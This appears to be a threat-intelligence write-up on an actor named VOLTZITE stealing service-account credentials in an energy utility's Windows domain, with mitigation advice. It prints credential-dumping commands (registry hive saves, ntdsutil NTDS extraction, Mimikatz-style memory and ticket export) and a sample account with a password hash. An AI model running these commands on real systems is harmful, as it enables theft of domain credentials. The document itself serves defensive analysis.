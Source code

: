 VOLTZITE escalated privileges through systematic harvesting of service account credentials used for operational technology system authentication. The threat actors specifically targeted the SCADA\\EnergyOps service account, which provided elevated access to energy management systems and historian databases critical to grid operations.

Analysis of credential harvesting activities reveals sophisticated techniques for extracting authentication material from Windows Active Directory environments while avoiding detection by security monitoring systems deployed in energy sector networks.

**Forensic Evidence - Credential Extraction:**
```powershell
# VOLTZITE credential harvesting techniques observed
# SAM Database Extraction
reg save HKLM\SAM C:\Windows\Temp\sam.tmp
reg save HKLM\SECURITY C:\Windows\Temp\security.tmp
reg save HKLM\SYSTEM C:\Windows\Temp\system.tmp

# NTDS Database Access
ntdsutil "ac i ntds" "ifm" "create full C:\Windows\Temp\ntds_extract" q q

# Memory Credential Extraction (Mimikatz-style)
sekurlsa::logonpasswords
sekurlsa::tickets /export
kerberos::list /export
```

**Active Directory Targeting Evidence:**
```
Service Account Compromise:
Account: SCADA\EnergyOps
Domain: UTILITY-CORP.LOCAL
SID: S-1-5-21-1234567890-987654321-1122334455-1001
Password Hash: aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71

Group Memberships:
- Domain Users
- SCADA Operators  
- EMS Administrators
- Historian Read/Write

Service Principal Names:
- MSSQLSvc/historian.energy-mgmt.local:1433
- HTTP/ems-server.grid-ops.local
```

#### Prevention

**Credential Protection**  
Implement Windows Credential Guard and Protected Process Light for LSASS to prevent memory-based credential extraction. Deploy privileged access workstations for operational technology administration. (Source: ATT&CK mitigation M1043)

**Service Account Management**  
Utilize managed service accounts and eliminate shared service account credentials for operational technology systems. Implement regular credential rotation for critical energy system accounts. (Source: ATT&CK mitigation M1026)
